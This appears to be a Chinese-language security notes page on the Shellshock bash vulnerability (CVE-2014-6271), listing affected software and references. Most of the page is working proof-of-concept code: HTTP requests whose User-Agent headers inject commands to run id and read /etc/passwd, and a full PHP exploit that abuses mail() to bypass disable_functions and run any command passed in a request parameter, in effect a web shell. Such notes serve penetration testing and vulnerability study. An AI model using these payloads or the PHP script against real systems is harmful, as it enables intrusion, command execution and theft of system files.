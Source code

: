 # 破壳漏洞
![](/images/破壳漏洞影响范围.png)
GNU Bash <= 4.3，此漏洞可能会影响到使用ForceCommand功能的OpenSSH sshd、使用mod_cgi或mod_cgid的Apache服务器、DHCP客户端、其他使用Bash作为解释器的应用等。

[web服务器和CGI的关系](https://blog.csdn.net/kobejayandy/article/details/11906505)

#### 参考

- https://www.cnblogs.com/qmfsun/p/7591757.html
- https://github.com/vulhub/vulhub/tree/master/bash/shellshock

![](491580-20170926162151276-378081397.png)

#### poc

```http
GET /victim.cgi HTTP/1.1
Host: 127.0.0.1:1235
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```
```
User-Agent: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"
User-Agent: () { :;}; echo `/bin/cat /etc/passwd`
```

## php mail相关函数可利用此漏洞

#### poc

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

imap_mail函数同样也可以